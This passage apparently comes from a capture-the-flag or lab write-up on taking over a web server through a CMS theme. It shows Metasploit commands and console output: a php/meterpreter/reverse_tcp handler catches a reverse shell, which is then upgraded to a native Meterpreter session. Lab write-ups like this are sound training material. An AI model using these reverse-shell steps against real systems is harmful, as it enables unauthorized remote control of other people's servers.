 Prior to saving the theme, I prepped a listener in using the `exploit/multi/handler` module in metasploit to catch the new meterpreter session.

```bash
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 3.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.253.137:4444
```

I then refreshed the site index and prepared the `multi/manage/shell_to_meterpreter` module to migrate the incoming shell to a new process not attached to the php session.

```bash
msf5 post(multi/manage/shell_to_meterpreter) > 
[*] Sending stage (38288 bytes) to 10.10.215.86
[*] Meterpreter session 1 opened (10.10.253.137:4444 -> 10.10.215.86:58660) at 2020-12-05 05:33:03 +0000

msf5 post(multi/manage/shell_to_meterpreter) > set session 1
session => 1
msf5 post(multi/manage/shell_to_meterpreter) > run

[!] SESSION may not be compatible with this module.
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.253.137:4433 
[*] Sending stage (980808 bytes) to 10.10.215.86
[*] Meterpreter session 2 opened (10.10.253.137:4433 -> 10.10.215.86:55326) at 2020-12-05 05:33:23 +0000
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
msf5 post(multi/manage/shell_to_meterpreter) > sessions 

Active sessions
===============

  Id  Name  Type                   Information                                                           Connection
  --  ----  ----                   -----------                                                           ----------
  1         meterpreter php/linux  www-data (33) @ internal                                              10.10.253.137:4444 -> 10.10.215.86:58660 (10.10.215.86)
  2         meterpreter x86/linux  no-user @ internal (uid=33, gid=33, euid=33, egid=33) @ 10.10.215.86  10.10.253.137:4433 -> 10.10.215.86:55326 (10.10.215.86)
```

Once this completed I killed the original session, and replaced the site index with it's original template, returning the site to its normal appearance.

### Enumerating the local user
